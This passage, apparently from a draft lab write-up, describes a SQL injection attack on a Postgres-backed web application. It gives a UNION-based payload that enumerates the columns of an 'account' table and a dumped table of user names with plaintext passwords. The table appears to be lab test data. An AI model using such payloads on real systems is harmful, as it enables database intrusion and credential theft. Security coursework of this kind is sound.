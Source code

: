      3. After dumping all tables from the database, we turn our
         attention towards, the more interesting tables. Additional [Postgres documentation](#url) reveals we can obtain the column names of the
         table with the following statement:

         ```SQL
         '  UNION (SELECT  null, null, column_name, null, null FROM information_schema.columns WHERE table_name='account') ;--'

         ```

      4. Now that we know about all the tables and columns of the database, we
        can use our Exploit 4 approaches (ie `LIMIT 1 OFFSET <x>`, or ` array_to-string(<COLUMN>)`) to get all values of the columns and target our malicious queries to specific users. Thus we now have access to all stored user information as shown below:

        <PUT IN THE 3 TABLES WITH ALL VALUES>
        
        |      |      |   ...Name     | lastName      |    passwd     | username | 
    | ---- |:----:|:-------------:|:-------------:| -------------:| ------------:|
    |      |      |   Alex        |     Large          |     sdfdsfd           | bigBoy |
    |      |      |   Anne        |     Lion          |     lion          | anne |
    |      |      |   Linda       |     Swim          |     fourfivesix          | lindah20 |
    |      |      |   Abagail     |     Silver          |   silverisbetter            | coins |
    |      |      |       Jessie        |     Burn          |   password1            | matchstick | 
    |      |      |     Annie          |        Cup       |     password          | coffee |
    |      |      |          Diane     |        Bassell       |     passw0rd          | ssll |
    |      |      |  Steve              |       Mountain        |       cliff        | cliff |
    |      |      |       Arnold        |   Rosenbloom            |     sdxfdsgger          | arnold@cs.toronto.edu
    |      |      |         Jay      |    Perlmuter           |     perl          | perl |
    |      |      |      Peter      |    Piper           |      Peter         | pickApeck |
    |      |      |     Jen          |      Binghampton         |   jbh            | hotel |
    |      |      |     David          |    Kleinman           |       esrever        | dk@gmail.com |
    |      |      |     Jesse          |    Kowalski           |        badPassword       | eightball@gmail.com
    |      |      |    Ivanna     |     Grant          |        grant       | ivanna |
    |      |      |  .     | | | |
        |      |      |  .     | | | |
    |      |      |  .     | | | |
    |      |      |  .     | | | |

